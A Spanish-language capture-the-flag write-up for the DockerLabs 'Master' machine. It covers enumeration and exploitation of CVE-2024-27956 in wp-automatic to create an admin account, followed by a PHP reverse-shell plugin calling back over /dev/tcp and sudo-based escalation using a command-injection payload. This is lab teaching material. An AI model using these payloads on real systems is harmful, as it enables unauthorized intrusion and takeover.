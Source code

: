 # Maquina Master

Lo primero que deberemos de hacer será escanear los posibles puertos que se encuentre abiertos en la máquina:

```shell 
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```
![NMAP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto.png)

Vemos que únicamente tiene abierto un puerto, el 80, por lo que vamos a ver que hay en la página web:

![HOME](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto2.png)

No hay mucha cosa interesante, en el código fuente tampoco encontramos nada, sin embargo, podemos observar en la parte de abajo que nos dice que está utilizando wp-automatic 3.92.0, tendremos esto en cuenta ya que nos servirá en un futuro. Al no encontrar nada relevante realizaremos fuzzing web con gobuster:

```shell 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![GOBUSTER](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto3.png)

Vemos que cuenta con un wordpress (lo podíamos deducir por el wp-automatic de antes también). Si nos poníamos encima de alguno de los diferentes cursos que había veíamos que había un usuario “Mario”, por lo que lo normal sería intentar obtener su contraseña y entrar al panel de administración de Wordpress, os adelanto que no es la solución ya que lo intente y no conseguí obtener su contraseña.

Ahora es cuando entra en juego el wp-automatic de antes, si buscamos información acerca de esta versión en google acompañado de la palabra exploit vemos esto:

![WEB](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto4.png)

https://thehackernews.com/2024/04/hackers-exploiting-wp-automatic-plugin.html

Si accedemos a la web vemos que aparece un CVE que puede que podamos utilizar:

![WEB2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto5.png)

Si buscamos el CVE en Google vemos que hay un exploit en github, así que vamos a probar si funciona:

https://github.com/diego-tella/CVE-2024-27956-RCE

Si seguimos los pasos que nos indica vemos que tras ejecutar el exploit nos crea un usuario con nombre “eviladmin” y con contraseña “admin”:

![CVE](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto6.png)

Intentamos acceder con el usuario que nos ha creado el exploit y ole, ya estamos dentro del panel de administración. Ahora vamos a intentar subir una reverse shell en forma de plugin:

![WP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto7.png)

![WP2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto8.png)

Una vez aquí vemos que unicamente nos deja subir archivos con extensión .zip, por lo que vamos a investigar como poder subir una reverse shell en .zip a un wordpress:

![WEB3](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto9.png)

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Dentro de la página copiamos el contenido que nos pone y lo metemos en un fichero con nombre reverse.php (puedes poner el que quieras).

```shell
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

![ZIP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto10.png)

Una vez tenemos el archivo en .zip vamos a intentar subirlo a ver que ocurre:

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto11.png)

Vemos que se ha subido correctamente y que nos da la opción de activarlo, antes de activarlo debemos de ponernos en escucha por el puerto que hayamos configurado para poder recibir la reverse shell:

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto12.png)

Ya estamos dentro de la máquina, por lo que primero que debermeos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Si ejecutamos el comando sudo -l vemos que podemos ejecutar php como el usuario pylon, por lo que vamos a buscar como hacerlo en GTFOBins:

https://gtfobins.github.io/gtfobins/php/#sudo

```shell
sudo -u pylon php -r "system('/bin/bash');"
```

Una vez lo ejecutamos nos convertimos en el usuario pylon, ahora repetimos el proceso y vemos que podemos ejecutar un script como el usuario “mario”. Este script nos pide introducir un parámetro, por lo que podemos intentar introducir un /bin/bash para ver si obtenemos la bash como el usuario mario:

```shell
a[$(/bin/bash >&2)]
```
![EP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto13.png)

Y ahí esta, somos el usuario mario. Ahora si ejecutamos de nuevo sudo -l vemos que podemos ejecutar otro script como root, ese script también nos pide un parámetro por lo que vamos a intentar reutilizar lo mismo que hemos hecho antes para obtener la escalada:

![EP2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto14.png)


